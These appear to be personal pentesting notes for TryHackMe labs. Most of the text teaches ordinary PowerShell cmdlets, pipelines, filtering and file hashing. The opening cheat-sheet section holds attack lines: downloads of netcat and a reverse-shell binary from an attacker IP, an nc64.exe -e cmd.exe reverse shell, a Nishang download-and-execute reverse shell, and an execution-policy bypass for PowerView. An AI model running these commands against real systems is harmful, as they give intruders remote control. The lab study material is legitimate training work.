powershell general
powershell -c command
The -c flag instructs the powershell to execute the command.
Examples:
powershell -c pwd
powershell -c cd C:\Users\sql_svc\Downloads; wget http://{Attacker_IP}/nc64.exe -outfile nc64.exe
powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe {Attacker_IP} {Attacker Listening Port}
Downloading in Powershell:
powershell -c Invoke-WebRequest -Uri <URL> -OutFile <OUTPUT-FILENAME>
powershell -c Invoke-WebRequest -Uri http://10.11.72.31/THM_WinPrivEsc_Tools/winPEASx64.exe -OutFile winPEASx64.exe
Downloading in Powershell:
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.72.31:8000/jenkins_revshell.exe','jenkins_revshell.exe')"
powershell -c "(New-Object System.Net.WebClient).Downloadfile('http://10.11.72.31:80/jenkins_revshell.exe','jenkins_revshell.exe')"
Reverse Shell using Nishang scripts:
cd /opt
git clone https://github.com/samratashok/nishang.git
cd /opt/nishang/Shells
Note: We have to host the Invoke-PowerShellTcp.ps1 file with python2 -m SimpleHTTPServer 80
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.72.31:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.72.31 -Port 7777
PowerView Setup:
1.) cd Downloads - navigate to the directory PowerView is in
2.) powershell -ep bypass - load a powershell shell with execution policy bypassed
3.) . .\PowerView.ps1 - import the PowerView module

THM Powershell Room
Powershell is the Windows Scripting Language and shell environment that is built using the .NET framework.
This also allows Powershell to execute .NET functions directly from its shell. Most Powershell commands, called cmdlets, are written in .NET. Unlike other scripting languages and shell environments, the output of these cmdlets are objects - making Powershell somewhat object oriented. This also means that running cmdlets allows you to perform actions on the output object(which makes it convenient to pass output from one cmdlet to another). The normal format of a cmdlet is represented using Verb-Noun; for example the cmdlet to list commands is called Get-Command.
Common verbs to use include:
▪ Get
▪ Start
▪ Stop
▪ Read
▪ Write
▪ New
▪ Out
Most useful Commands: Get-Help and Get-Command
To get the full list of approved verbs, visit the following link.
https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/approved-verbs-for-windows-powershell-commands?view=powershell-7
Using Get-Help
Get-Help displays information about a cmdlet. To get help about a particular command, run the following:
Get-Help Command-Name
You can also understand how exactly to use the command by passing in the -examples flag. This would return output like the following:
Examples:
Get-Help Get-ChildItem
Get-Help Get-ChildItem -ShowWindow
Get-Help Get-ChildItem -Examples
Get-Help Get-ChildItem -Full
Or Specific Help on a certain parameter
Get-Help Get-ChildItem -Parameter Path
Eg. Get-Help Get-Command -examples
Show help about the Get-Command cmdlet.

Listing All Parameters
Type the cmdlet then type - and hit Ctrl+Space
It will show all available parameters. (Use Tab & Shift+Tab to go forward and backward)
Then we can use help to look at individual parameter description/help.
Or
To list all parameters on terminal use the following.
(Get-Command Get-ChildItem).Parameters
It will show all available parameters.
Then we can use help to look at individual parameter description/help.
Specific Help on a certain parameter
Get-Help Get-ChildItem -Parameter Path
Using Get-Command
Get-Command gets all the cmdlets installed on the current Computer. The great thing about this cmdlet is that it allows for pattern matching like the following
Get-Command Verb-* or Get-Command *-Noun
Running Get-Command New-* to view all the cmdlets for the verb new displays the following:
Eg. Get-Command New-*

Object Manipulation
In the previous task, we saw how the output of every cmdlet is an object. If we want to actually manipulate the output, we need to figure out a few things:
▪ passing output to other cmdlets
▪ using specific object cmdlets to extract information
The Pipeline (|) is used to pass output from one cmdlet to another. A major difference compared to other shells is that instead of passing text or string to the command after the pipe, powershell passes an object to the next cmdlet. Like every object in object oriented frameworks, an object will contain methods and properties. You can think of methods as functions that can be applied to output from the cmdlet and you can think of properties as variables in the output from a cmdlet. To view these details, pass the output of a cmdlet to the Get-Member cmdlet
Verb-Noun | Get-Member
An example of running this to view the members for Get-Command is:
Get-Command | Get-Member -MemberType Method

From the above flag in the command, you can see that you can also select between methods and properties.
Get-Command | Get-Member -MemberType Property

Creating Objects From Previous cmdlets
One way of manipulating objects is pulling out the properties from the output of a cmdlet and creating a new object. This is done using the Select-Object cmdlet.
Here's an example of listing the directories and just selecting the mode and the name:
Get-ChildItem | Select-Object -Property Mode, Name

You can also use the following flags to select particular information:
▪ first - gets the first x object
▪ last - gets the last x object
▪ unique - shows the unique objects
▪ skip - skips x objects
Eg. Get-ChildItem | Select-Object -Property Mode, Name -First 4

Filtering Objects
When retrieving output objects, you may want to select objects that match a very specific value. You can do this using the Where-Object to filter based on the value of properties.
The general format of the using this cmdlet is
Verb-Noun | Where-Object -Property PropertyName -operator Value
Verb-Noun | Where-Object {$_.PropertyName -operator Value}
The second version uses the $_ operator to iterate through every object passed to the Where-Object cmdlet.
Note: Powershell is quite sensitive so make sure you don't put quotes around the command!
Where -operator is a list of the following operators:
▪ -Contains: if any item in the property value is an exact match for the specified value
▪ -EQ: if the property value is the same as the specified value
▪ -GT: if the property value is greater than the specified value
For a full list of operators, use the following link.
https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-7.2&viewFallbackFrom=powershell-6
Here's an example of checking the stopped processes:
Get-Service | Where-Object -Property Status -eq Stopped

Sort Object
When a cmdlet outputs a lot of information, you may need to sort it to extract the information more efficiently. You do this by pipe lining the output of a cmdlet to the Sort-Object cmdlet.
The format of the command would be
Verb-Noun | Sort-Object
Here's an example of sort the list of directories:
Get-ChildItem | Sort-Object

To Search a File
Get-ChildItem -Path C:\ -Include *interesting-file.txt* -Recurse -File
Get-ChildItem -Path C:\ -Include *interesting-file.txt* -Recurse -File -ErrorAction SilentlyContinue
Note: The include Parameter takes up search string within *Value* if the name is partial & the ErrorAction Parameter is used to supress certain find errors.
Actual Filename: interesting-file.txt.txt

Read Files
Get-Content "C:\Program Files\interesting-file.txt.txt"

Count No of cmdlets
Get-Command | Measure
Shows the no of all the commands

But if we want only cmdlets we need to add certain parameters
Get-Command | Select-Object -First 2
We use this to get the headings.

Final Command
Get-Command | Where-Object -Property CommandType -eq Cmdlet | Measure

Find MD5 Hash for a File
Basic search about Hash
Get-Command *hash*
Then we find all the parameter of Get-FileHash cmdlet

Note: By default Powershell uses SHA256, we need to specify MD5 in Algorithm parameter.
Get-FileHash -Path "C:\Program Files\interesting-file.txt.txt"
Get-FileHash -Path "C:\Program Files\interesting-file.txt.txt" -Algorithm MD5

Find Current Working Directory
Get-Location

To check if a PATH exists
Test-Path -Path “Full-Path-Here”
It returns True or False

Reuest a Webserver
Invoke-WebRequest

Base64 Decode (uses External Software: certutil.exe)
certutil.exe -decode "C:\Users\Administrator\Desktop\b64.txt" output.txt

Output will be created in the current directory, then we can view the contents using Get-Content
Get-Content .\output.txt

Or we can use native cmd command “type”